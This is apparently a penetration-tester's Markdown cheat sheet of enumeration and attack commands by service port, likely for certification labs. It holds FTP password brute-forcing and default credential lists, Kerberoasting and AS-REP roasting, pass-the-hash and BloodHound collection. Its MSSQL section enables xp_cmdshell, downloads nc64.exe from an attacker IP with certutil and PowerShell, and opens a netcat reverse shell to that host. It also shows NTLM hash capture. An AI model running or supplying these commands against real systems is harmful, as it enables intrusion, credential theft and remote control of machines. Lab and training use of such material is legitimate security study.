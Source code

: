 ## Enumeration Checklist

# set your variables

`target=`<br>
`user=`<br>
`pass=`<br>
`ip=`<br>
`domain=`<br>

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns<br>

admin/admin<br>
root/root<br>
password/password<br>
username/username<br>


# 53 DNS

`dig @$ip version.bind CHAOS TXT`<br>
`dig axfr @$ip $domain`<br>
`dnsenum $domain`<br>

# 135 RCP

`rpcclient -U '' -N $ip`<br>
`rpcclient -U '$user%$pass' $ip` <br>

- `> enumdomusers      #check the users on the DC`<br>
- `> queryuser <username>  #query the details of the user`<br>
- `> querydispinfo`<br>

`nmblookup -A $ip`<br>

# 445 SMB

***Without Pass***<br>
`enum4linux -a $ip`<br>
`impacket-lookupsid $domain/$user@$domain -no-pass`<br>
`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`<br>
`smbclient -N -L //[ip]`<br>
`smbclient //[ip]/[share] -N   #Enumerate Files`<br>


***With Pass***
`lookupsid.py  $domain$user:$pass@$domain`<br>
`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2<br>
> [!IMPORTANT]
> This oneliner will create a file with all the domain users

`psexec.py -hashes  :<ntlm hash>    $user@$ip`<br>
`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`<br>
`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`<br>
`netexec smb [host/ip] -u [user] -p [pass] --shares`<br>
`netexec smb [host/ip] -u guest -p '' --shares`<br>
`smbclient //[ip]/[share] -U [username] [password]`<br>
`netexec smb -u [user] -p [pass] -M spider_plus`<br>
`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`<br>
`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`<br>


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`<br>
`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`<br>
`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`<br>
`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`<br>
`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`<br>
`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`<br>


# 389 LDAP

***Without Pass***<br>
`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam"`<br>
`ldapsearch -x -H ldap://$ip -s base namingcontexts`<br>
`impacket-lookupsid '$domain/guest'@$domain -no-pass`<br>

***With Pass***<br>
`lookupsid.py  $domain/$user:$pass@$domain`<br>
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`<br>

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`<br>
`neo4j console'<br>
> [!IMPORTANT]<br>
> config file; /usr/share/neo4j/conf<br>
`./Bloodhound  --no-sandbox`<br>


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`  #Windows login<br>
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`<br>

`SELECT @@version   #Current MSSQL Version`<br>
`SELECT DB_NAME()   #Current Database`<br>
`SELECT name FROM sys.databases;  #show DBs`<br>	
`enum_db            #show DBs`<br>
`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`<br>

***cmd command***<br>
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami /priv'`<br>


***powershell***<br>
`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`<br>
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`<br>
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`<br>


***NTLM capture***<br>
`xp_dirtree \\192.168.1.210\shared`<br>
`responder -I tun01`
> [!IMPORTANT]
> When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

***impersonate***<br>
`enum_impersonate'<br>  > impersonate`<br>
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`<br>
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`<br>


**MSSQL Cheetsheet**<br>
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
